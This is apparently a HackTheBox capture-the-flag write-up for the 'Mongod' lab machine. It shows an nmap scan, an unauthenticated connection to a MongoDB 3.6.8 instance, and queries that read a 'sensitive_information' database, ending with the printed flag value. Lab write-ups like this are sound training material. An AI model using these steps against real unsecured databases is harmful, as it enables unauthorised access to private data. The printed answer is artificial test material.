 ## Mongod HackTheBox
#### Short Bio

___

#### `Nmap` Time:
```bash
nmap -v -A -sV --privileged -T4 10.129.228.30 -p- -O -sC
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|22/tcp|open|ssh|OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)|
|27017/tcp|open|mongodb|MongoDB 3.6.8|

The Nmap result is really big for this page, so I've create a seperate doc for it [here](./nmap)
We have Mongo DB and SSH open. Cool.

---
#### Accessing MongoDB
MongoDB has it's own support for cli access which is `mongo`. <br>
```bash
# To install:
apt install mongodb-clients -y

# To connect with out pass/ user:
mongo "mongodb://10.129.228.30:27017"

```
Wait a moment, don't make mistake by thinking that this is a normal shell. It's not, you need special commands specific for mongo db.

Well how do you know that? easy, just type `help`.
You will get all the commands you need.

---

#### Getting Flag
- First we will check all the available DBs. **Command** ::: `show dbs`
- we have bunch of dbs and all of them are interesting. But we know which one to check (sensitive_information)
- to use this type: `use sensitive_information`
- Now we need to see whats inside. Type: `show collections` and we can see a collection called `flag`. Now we need to get the contents of the `flag`.
- Befor viewing the contents we need to know what command to use. for that, type: `db.flag.help()`
- we get a command like this:
```terminal
db.flag.find([query],[fields]) - query is an optional query filter. fields is optional set of fields to 

e.g. db.flag.find( {x:77} , {name:1, x:1} )
```
so, lets try: `db.flag.find()` and we got:
```js
> db.flag.find()
{ "_id" : ObjectId("630e3dbcb82540ebbd1748c5"), "flag" : "1b6e6fb359e7c40241b6d431427ba6ea" }
```
Done

